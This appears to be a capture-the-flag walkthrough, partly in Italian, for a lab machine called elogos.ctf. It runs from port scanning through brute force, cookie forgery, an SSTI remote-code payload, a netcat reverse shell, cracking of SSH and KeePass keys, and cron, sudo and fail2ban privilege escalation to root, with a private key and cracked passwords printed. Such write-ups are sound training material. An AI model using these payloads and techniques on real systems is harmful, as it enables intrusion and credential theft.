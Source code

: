 ### **PORT SCANNING**
```bash
nmap -sT -T5 -p- 192.168.86.129
```
![[Pasted image 20231011153211.png]]

### **PATH 1 - FTP**
Directory enumeration
```bash
gobuster dir -e -u "https://192.168.86.129" -w /usr/share/wordlists/dirb/common.txt -k
```

Go to http://elogos.ctf/about-us and take note of the listed username (email)
![[Pasted image 20231011153524.png]]

After that launch a brute force with hydra on ftp to gain access
```
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt ftp://elogos.ctf
```
==Creds = j.brock:princess==
ls -la and take the private ssh key. Crack it.
```
ssh2john id_rsa > hash
```
![[Pasted image 20231011153933.png]]![[Pasted image 20231011154601.png]]

Log in as j.brock via ssh
### **PATH 2 - WEB**

Directory enumeration
```bash
gobuster dir -e -u "https://192.168.86.129" -w /usr/share/wordlists/dirb/common.txt -k
```


*Cookie Bypass*
http://elogos.ctf/login
Use inspect to retrieve the cookie and decode it.
![[Pasted image 20231011154838.png]]
Change logged in to true and save it in the browser
```bash
echo 'eyJsb2dnZWRfaW4iOiBmYWxzZSwgInVzZXJuYW1lIjogIiJ9' | base64 -d
```
```bash
echo '{"logged_in": true, "username": ""}' | base64
```
*HardCoded Credentials*
Ci sono delle credenziali hardcodate al seguente path
https://elogos.ctf/assets/js/secure_credentials.js
admin:4dmin3vil!!
![[Pasted image 20231012173648.png]]
*Web to www-Data*
![[Pasted image 20231011154905.png]]
Use the "user=" parameter to inject the ssti payload and achieve a RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen("id").read()}}
```
Usa la reverse shell url encodata
```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.86.130%204444%20%3E%2Ftmp%2Ff
```
![[Pasted image 20231011155050.png]]
Now use the rce to obtain a reverse shell
![[Pasted image 20231012163853.png]]
*www-Data to John*
intera home j.brock leggibile da gruppo web-developer di cui www-Data fa parte
![[Pasted image 20231012164214.png]]
catta id_rsa
``` bash
cat /home/j.brock/.ssh/id_rsa
```

```id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
qMfG6JM2YKLsLYHqT9T+dgZJqGc=
-----END OPENSSH PRIVATE KEY-----
```
e craccalo usando ssh2john
```
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
==Password = spaghetti==

Entra su ssh come j.brock
==ricorda chmod 400 su id_rsa==
### **j.brock to m.hack**
Scarica linpeas ed avvialo
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20231011-b4d494e5/linpeas.sh
```

![[Pasted image 20231012165416.png]]
```bash
cat /etc/crontab
```
Vai in /scripts e crea un file random.py
```python
import os
os.system('cp /bin/bash /scripts/; chmod +s /scripts/bash')
```
![[Pasted image 20231012164950.png]]
Aspetta che runna tramite cronjob ed esegui il bash con suid creato
![[Pasted image 20231012165448.png]]

### **m.hack to r.silva**
Nella home di m.hack c'è un file keepass kdbx.
Usa keepass2john per craccarlo
```
keepass2john mypasswords.kdbx > hash

```
==Password = ihatehackers==

all'interno del keepass c'è la password per l'utente
==Password = JVQe4hUMqvCry4Gz996!n3==

Puoi fare
```bash
su m.hack
```
per stabilizzare la shell. Poi fai
```bash
sudo -l
```
![[Pasted image 20231012170444.png]]
crea il path ed il binario
```bash
mkdir .updates
cd .updates
mkdir tmp
cd tmp
vim update_binary
```
```update_binary
#/bin/bash

/bin/bash -p
```
==dai chmod +x al binario==
ed esegui il sudo come r.silva
```
sudo -u r.silva /home/m.hack/.updates/tmp/update_binary
```
![[Pasted image 20231012170931.png]]

### **r.silva to root**
r.silva appartiene al gruppo fail2ban
![[Pasted image 20231012171109.png]]
andiamo a modificare i config di fail2ban
```bash
cd /etc/fail2ban
vim jail.conf
```
linea 268 per vedere che azione viene eseguita al trigger di fail2ban
![[Pasted image 20231012171431.png]]
linea 554 per attivarlo su vsftp
![[Pasted image 20231012171353.png]]
Ora vai a modificare l'action
```bash
cd action.d
vim log_alert.conf
```
![[Pasted image 20231012171555.png]]
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```
Aspetta il restart tramite cronjob (ogni minuto)
tenta di bruteforzare ftp per triggerare fail2ban
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/CommonAdminBase64.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.86.129
```
![[Pasted image 20231012172132.png]]
![[Pasted image 20231012172158.png]]
